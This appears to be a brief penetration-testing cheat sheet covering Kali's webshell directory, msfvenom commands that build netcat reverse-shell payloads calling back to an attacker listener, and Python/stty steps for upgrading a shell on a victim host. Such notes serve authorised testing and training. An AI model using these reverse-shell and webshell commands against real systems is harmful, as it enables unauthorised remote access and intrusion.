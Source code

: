 ```bash

```


## Webshell

In Kali it is integrated:

`$ webshells`

After that you shall be placed into the directory with webshells

```
> webshells ~ Collection of webshells
/usr/share/webshells
├── asp
├── aspx
├── cfm
├── jsp
├── laudanum -> /usr/share/laudanum
├── perl
└── php

```

Here you have a rich selection of all possible shells.

## Reverse Shell bytecode generation with MSFVENOM

Use for any available payload.

`msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.xxx.xxx LPORT=443 -f python`

`msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888`

# Shell Upgrade

* The bind/reverse shell is not always fully interactive but can be made using like that using Python trick:

1. Insert one those lines into victim CLI

<code> python -c 'import pty; pty.spawn("/bin/bash")' </code><br>
<code> python3 -c 'import pty;pty.spawn("/bin/bash")' </code>

## Getting fully working PTY

```
python -c 'import pty; pty.spawn("/bin/bash")'
^Z bg
stty -a
echo $TERM
stty raw -echo
fg
export TERM=...
stty rows xx columns yy
```